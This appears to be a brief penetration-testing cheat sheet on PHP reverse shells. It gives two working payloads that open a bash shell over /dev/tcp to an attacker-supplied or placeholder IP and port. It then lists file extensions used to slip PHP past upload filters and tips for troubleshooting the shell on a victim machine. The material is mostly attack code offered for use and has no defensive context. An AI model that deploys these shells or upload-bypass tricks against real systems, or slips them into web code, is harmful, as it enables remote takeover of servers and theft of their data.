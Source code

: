 ### PHP Shells
* User Supplied IP and Port
```php
<?php $ip=$_GET['ip']; $port=$_GET['port']; $string = \"/bin/bash -c 'bash -i >& /dev/tcp/\".$ip.\"/\".$port.\" 0>&1'\"; exec($string); ?>
```
* Hardcoded IP and Port
```php
<?php exec(\'/bin/bash -c \"bash -i >& /dev/tcp/<<ATTACKER IP>>/<<PORT>> 0>&1\"\'); ?>
```

## Extensions
* .phtml 
* .PHP
* .php;.txt
* .php%00

## Tips for troubleshooting reverse shell
* ssh into victim box and test out bash command 
* Run php from the box directly
```
$ php -f phpshell.php
```
* Attempt port 443
* Try a different shell
* Confirm OS (Linux or Windows)
